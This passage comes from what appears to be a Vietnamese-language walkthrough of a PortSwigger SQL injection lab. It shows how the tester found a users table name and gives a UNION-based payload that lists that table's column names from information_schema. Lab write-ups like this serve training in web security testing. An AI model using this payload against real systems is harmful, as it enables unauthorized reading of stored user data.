 ![img](https://github.com/DucThinh47/PortSwigger/blob/main/SQL-injection/images/image93.png?raw=true)

=> Tìm ra tên bảng chứa thông tin về users: `users_twsmtx`

Tiếp theo cần tìm tên các cột trong bảng này, sử dụng payload `'UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name = 'users_twsmtx'--`:

![img](https://github.com/DucThinh47/PortSwigger/blob/main/SQL-injection/images/image94.png?raw=true)
